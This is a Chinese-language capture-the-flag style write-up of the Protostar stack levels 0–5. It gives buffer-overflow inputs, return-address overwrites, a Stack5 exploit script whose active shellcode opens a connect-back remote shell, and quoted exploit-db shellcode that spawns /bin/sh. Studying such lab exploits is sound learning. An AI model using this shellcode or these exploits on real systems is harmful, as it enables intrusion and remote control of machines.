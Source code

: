 ```yaml
---
layout: post
title: Protostar WriteUp
catagories: [ctf-execrise]
tags: [ctf, writeup, protostar]
---
```


> 堆、栈、格式化字符串漏洞利用学习


##Stack0

`gets()`函数不检查输入长度是否已溢出，所以输入超过buffer的长度，自然会覆盖到栈上的其它变量，
而`Modified`变量是紧跟着`buffer[]`的，因此被改写。

```
$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
$ 
```

##Stack1

这一题要求modified的变量值为`0x61626364`. 因为数据是小端表示的，因此传给modifed的字符串应该是`"dcba"`.

```
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
$ 
```

##Stack2

因为`os.environ`改过的环境变量只在这个进程内部有效，进程外部无效，但其子进程是继承的父进程的环境变量，所以可以用`subprocess.Popen`来运行stack2

```python
import os
import subprocess
os.environ["GREENIE"]="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\x0a\x0d\x0a\x0d"
#print os.environ["GREENIE"]

cmd = "/opt/protostar/bin/stack2"
subprocess.Popen(cmd, close_fds=True, stderr=subprocess.PIPE, shell=True)
```

```
$ python ss.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


$ you have correctly modified the variable
```

##Stack3

`objdump -d stack3`，拿到win()的地址`0x08048424`

构造输入：

```
$ python -c "print 'A'*64 + '\x24\x84\x04\x08'"|./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
$ 
```

##Stack4

拿到win()的地址`080483f4`

因为有对齐，原来的栈顶`0xbffffc48`变成了`0xbffffc40`

eip在ebp的下方

因此，应填充的padd为64+8+4,下接win的地址

```python
python -c "print 'A'*64 + 'B'*8 +'C'*4 + '\xf4\x83\x04\x08'"
```

```
$  python -c "print 'A'*64 + 'B'*8 +'C'*4 + '\xf4\x83\x04\x08'"|./stack4
code flow successfully changed
Segmentation fault
```

##Stack5

几个技巧：

1. nasm与ndisasm很强大，一个汇编编译，一个反汇编
2. 调试时关闭地址随机化`echo 0 >/proc/sys/kernel/randomize_va_space`
3. pwntools和msfconsole很强大，生成shellcode的话，msfconsole很全
4. core dump很有必要，因为gdb下和真实运行还是有很大差别的.`ulimit -c unlimited`和`echo "/tmp/core-%e-%p-%t" > /proc/sys/kernel/core_pattern`

标准的栈溢出，试过n种shellcode,明显msfconsole生成的更灵活，exploit-db太多，不知如何选择
`http://shell-storm.org/shellcode/, http://www.exploit-db.com/`

```python
#!/usr/bin/env python

#shell = '31c9f7e96a01fe0c24682f2f7368682f62696eb00b89e3cd80'.decode("hex")

#shell = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" +\
        #"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00" +\
        #"\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd" +\
        #"\x80"

#buf =  ""
#buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
#buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0"
#buf += "\xa8\x01\x70\x68\x02\x00\x04\xd2\x89\xe1\xb0\x66\x50"
#buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73"
#buf += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
#buf += "\x0b\xcd\x80"


buf =  ""
buf += "\x31\xc9\x31\xdb\xf7\xe3\xb0\xa4\xcd\x80\x31\xdb\x6a"
buf += "\x17\x58\xcd\x80\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02"
buf += "\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49"
buf += "\x79\xf9\x68\xc0\xa8\x01\x70\x68\x02\x00\x04\xd2\x89"
buf += "\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52"
buf += "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52"
buf += "\x53\x89\xe1\xb0\x0b\xcd\x80"


#buf =  ""
#buf += "\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
#buf += "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"
#buf += "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

#shellcode = "\x90"*(76-len(buf))+buf+ "\x40\xfc\xff\xbf" //放在ebp前, 效果不好
shellcode = "A"*76 +"\x74\xfe\xff\xbf" + "\x90"*16 +  buf //放在ebp后

fd = open("shellcode", "w")
fd.write(shellcode)
```
gets()这种溢出，还有个情况，/bin/sh时，标准输入会出现一些问题，导致刚运行即退出的现象，
所以stdin需要重新打开，这有个牛B的shellcode,备忘：
[http://www.exploit-db.com/exploits/13357/](http://www.exploit-db.com/exploits/13357/)

```c
/*
 * $Id: gets-linux.c,v 1.3 2004/06/02 12:22:30 raptor Exp $
 *
 * gets-linux.c - stdin re-open shellcode for Linux/x86
 * Copyright (c) 2003 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * Local shellcode for stdin re-open and /bin/sh exec. It closes stdin 
 * descriptor and re-opens /dev/tty, then does an execve() of /bin/sh.
 * Useful to exploit some gets() buffer overflows in an elegant way...
 */
 
/*
 * close(0) 
 *
 * 8049380:       31 c0                   xor    %eax,%eax
 * 8049382:       31 db                   xor    %ebx,%ebx
 * 8049384:       b0 06                   mov    $0x6,%al
 * 8049386:       cd 80                   int    $0x80
 *
 * open("/dev/tty", O_RDWR | ...)
 *
 * 8049388:       53                      push   %ebx
 * 8049389:       68 2f 74 74 79          push   $0x7974742f
 * 804938e:       68 2f 64 65 76          push   $0x7665642f
 * 8049393:       89 e3                   mov    %esp,%ebx
 * 8049395:       31 c9                   xor    %ecx,%ecx
 * 8049397:       66 b9 12 27             mov    $0x2712,%cx
 * 804939b:       b0 05                   mov    $0x5,%al
 * 804939d:       cd 80                   int    $0x80
 *
 * execve("/bin/sh", ["/bin/sh"], NULL)
 *
 * 804939f:       31 c0                   xor    %eax,%eax
 * 80493a1:       50                      push   %eax
 * 80493a2:       68 2f 2f 73 68          push   $0x68732f2f
 * 80493a7:       68 2f 62 69 6e          push   $0x6e69622f
 * 80493ac:       89 e3                   mov    %esp,%ebx
 * 80493ae:       50                      push   %eax
 * 80493af:       53                      push   %ebx
 * 80493b0:       89 e1                   mov    %esp,%ecx
 * 80493b2:       99                      cltd   
 * 80493b3:       b0 0b                   mov    $0xb,%al
 * 80493b5:       cd 80                   int    $0x80
 */
 
char sc[] = 
"\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
"\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"
"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";
 
main()
{
    int (*f)() = (int (*)())sc; f();
}
 
// milw0rm.com [2006-07-20]
```

要拿root权限，还需要跑/opt/protostar/bin/stack5这个路径下的文件，不过因为文件夹对user用户有写限制，
所以core dump不好生成，可在root权限下生成core dump进行分析
